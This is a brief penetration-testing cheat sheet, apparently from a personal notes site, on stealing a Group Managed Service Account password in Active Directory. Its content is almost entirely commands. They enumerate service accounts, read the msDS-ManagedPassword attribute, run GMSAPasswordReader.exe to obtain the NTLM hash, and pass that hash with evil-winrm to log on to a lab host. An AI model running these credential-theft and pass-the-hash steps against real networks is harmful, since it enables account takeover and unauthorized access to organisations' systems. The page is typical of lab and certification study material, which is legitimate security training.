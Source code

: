 # GMSA password retrieval

Reference: [Reading GMSA Password](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#reading-gmsa-password)

### Enumeration

{% code overflow="wrap" %}
```bash
# Target machine
# Check domain username and see any service account
PS> net users /domain 

# Check svc_apache properties
PS> Get-ADServiceAccount -Identity 'svc_apache$' -Properties *

# Enumerate if you can get a password from the service account
PS> Get-ADServiceAccount -Identity 'svc_apache$' -Properties * | Select PrincipalsAllowedToRetrieveManagedPassword

# Check if you can get a password hash
get-ADServiceAccount -Identity 'svc_apache$' -Properties 'msDS-ManagedPassword'
$gmsa = Get-ADServiceAccount -Identity 'svc_apache$' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'
$mp
```
{% endcode %}

### Get Password Hash

{% code overflow="wrap" %}
```bash
# https://github.com/CsEnox/tools/raw/main/GMSAPasswordReader.exe

PS> ./GMSAPasswordReader.exe --accountname svc_apache
```
{% endcode %}

### Logon to the target machine

```bash
# winrm example
evil-winrm -i 192.168.174.165 -u svc_apache$ -H 41BCD07B8CC9636826FE07FF9539CA57
```

